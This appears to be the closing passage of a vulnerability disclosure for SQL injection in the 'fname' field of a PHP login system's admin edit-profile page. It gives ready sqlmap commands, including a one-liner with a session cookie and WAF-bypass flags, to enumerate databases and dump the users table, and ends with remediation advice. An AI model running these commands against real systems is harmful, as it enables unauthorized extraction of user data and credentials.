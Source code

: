 ```bash
sqlmap -r req.txt -p fname --batch --dbs --banner
```

**Step 4 — List tables in a database:**

```bash
sqlmap -r req.txt -p fname --batch -D target_db --tables
```

**Step 5 — Dump a table (example: `users`):**

```bash
sqlmap -r req.txt -p fname --batch -D target_db -T users --columns
sqlmap -r req.txt -p fname --batch -D target_db -T users --dump
```

**Example one-liner (without request file):**

```bash
sqlmap -u "https://192.168.31.97/User-Registration-and-login-System-with-admin-panel/loginsystem/admin/edit-profile.php?uid=1" \
  --data="fname=Rahul&lname=Kumarrr&contact=1234567890&update=" \
  -p fname \
  --cookie="PHPSESSID=7tnikfr1hvrh3p5sq2l0bi9rki" \
  --batch --level=5 --risk=3 --dbs
```

**Common useful flags:**
- `--threads=4` — parallel requests.  
- `--technique=BEUSTQ` — restrict to specific injection techniques (Boolean, Error, Union, Stacked, Time, Query).  
- `--time-sec=10` — timeout for time-based payloads.  
- `--skip-waf` — attempt WAF bypasses (use with caution).

**Interpreting results:**
- `sqlmap` reports the injection type and recommended extraction methods. Dumped data may include sensitive fields (emails, hashed passwords). Treat dumped credentials as sensitive and follow your disclosure/response policy.

### Tools / Commands (single-line example)
```
sqlmap -r req.txt -p fname --batch --level=5 --risk=3 --cookie="PHPSESSID=7tnikfr1hvrh3p5sq2l0bi9rki" --dbs
```

### Initial Recommendations (SQLi)
- Use **prepared statements / parameterized queries** (PDO prepared statements or parameterized APIs) everywhere user input is used in SQL.  
- Apply **least privilege** on DB credentials used by the application. Web DB user should not have more privileges than necessary.  
- Conduct code review and fix all dynamic query construction. Use an ORM or parameterized query builder if possible.  
- Monitor and log suspicious queries or unusual volumes of queries. Implement anomaly detection for data exfiltration.  
- If data was exfiltrated (e.g., password hashes), trigger incident response: reset exposed credentials, notify affected users, rotate keys/secrets as necessary.

---